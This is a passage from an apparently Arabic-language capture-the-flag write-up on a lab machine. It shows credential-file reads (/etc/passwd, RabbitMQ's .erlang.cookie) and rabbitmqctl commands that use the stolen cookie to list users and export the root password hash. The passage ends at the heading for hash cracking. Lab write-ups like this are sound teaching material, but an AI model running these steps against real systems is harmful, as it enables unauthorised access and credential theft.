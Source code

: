 ```bash
azrael@forge:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
rabbitmq:x:124:131:RabbitMQ messaging server,,,:/var/lib/rabbitmq:/usr/sbin/nologin
```
في البداية ما شفته لكن بعد ماتشغل pspy64 تلاحظ حركة غريبة في السيرفر:
```bash
CMD: UID=124   PID=3665   | sh -c exec /bin/sh -s unix:cmd 
CMD: UID=124   PID=3666   | /bin/sh -s unix:cmd 
CMD: UID=124   PID=3667   | sh -c exec /bin/sh -s unix:cmd 
CMD: UID=124   PID=3668   | /bin/sh -s unix:cmd 
CMD: UID=124   PID=3669   | sh -c exec /bin/sh -s unix:cmd
CMD: UID=124   PID=3836   | /usr/bin/df -kP /var/lib/rabbitmq/mnesia/rabbit@forge
```
```bash
azrael@forge:/ cat /etc/passwd | grep 124

rabbitmq:x:124:131:RabbitMQ messaging server,,,:/var/lib/rabbitmq:/usr/sbin/nologin
```
إذا رحت للمجلد حق المستخدم تلاحظ فيه ملف باسم erlang.cookie.:
```bash
azrael@forge:/ cat /var/lib/rabbitmq/.erlang.cookie

xuCtFDnd9dbt8nT4
```
## استخدام خدمة rabbitmq
الآن عندي كم معلومة، الأولى هي اسم المستخدم، الثانية هي الكوكيز والواضح أنها تستخدم للتحقق من الهوية -Authentication-. إذا بحث في قوقل عن اسم المستخدم راح تطلع لك الصفحة حقت الخدمة [RabbitMQ](https://www.rabbitmq.com/) الآن أمامك طريقين، الأول إنك تبحث عن ثغرات معروفة في هذه الخدمة، جربت كذا سكربت لكن ماضبط معي أي واحد، الطريقة الثانية هي إنك تبحث عن طريقة تسجيل الدخول باستخدام الكوكيز اللي معك، إذا بحث في قوقل عن [authenticating to rabbitmq with erlangcookie](https://www.google.com/search?client=firefox-b-d&q=authenticating+to+rabbitmq+with+erlangcookie) تطلع معك صفحة بعنوان [Authentication, Authorisation, Access Control](https://www.rabbitmq.com/docs/access-control) نلاحظ في قسم listing_users عندنا ثنائية باسم rabbitmqctl، الواضح من خلالها نقدر نرسل طلبات للسيرفر، بعد مانبحث شوي نطلع هذي الصفحة [rabbitmqctl](https://www.rabbitmq.com/docs/man/rabbitmqctl.8) واللي تشرح طريقة استخدام الثنائية. بعد مانحمل الثنائية عندنا خلينا نحاول نرسل طلب للسيرفر:

```bash
$ ./rabbitmqctl --erlang-cookie xuCtFDnd9dbt8nT4 -n rabbit@cloudsite.thm list_users
Error: operation list_users failed due to invalid node name (node: rabbit@cloudsite.thm, reason: short).
If using FQDN node names, use the -l / --longnames argument
```
اسم النود غير صحيح، في المخرجات حقت pspy64 كان عندنا اسم غريب وهو rabbit@forge ممكن يكون هو اسم النود، لكن قبلها خلينا نضيف forge ل etc/hosts/:
```bash
./rabbitmqctl --erlang-cookie xuCtFDnd9dbt8nT4 -n rabbit@forge list_users 
Listing users ...
user	tags
The password for the root user is the SHA-256 hashed value of the RabbitMQ root user's password. Please don't attempt to crack SHA-256.	[]
root	[administrator]
```
الهدف الآن هو استخراج كلمة المرور الخاصة بالروت، إذا كملت بحث في مستندات الخدمة راح تحصل ذي الصفحة [Schema Definition Export and Import](https://www.rabbitmq.com/docs/definitions#export) اللي تشرح طريقة تخزين الخدمة للمعلومات، من خلال هذا الأمر تقدر تطلع الهاش حق الروت:
```bash
$ ./rabbitmqctl --erlang-cookie xuCtFDnd9dbt8nT4 --node rabbit@forge export_definitions ./def.json 
Exporting definitions in JSON to a file at "./def.json" ...
... 
"name" => "root", "password_hash" => "49e6hSldHRaiYX329+ZjBSf/Lx67XEOz9uxhSBHtGU+YBzWF"
...
```
## فك الهاش وتصعيد الصلاحيات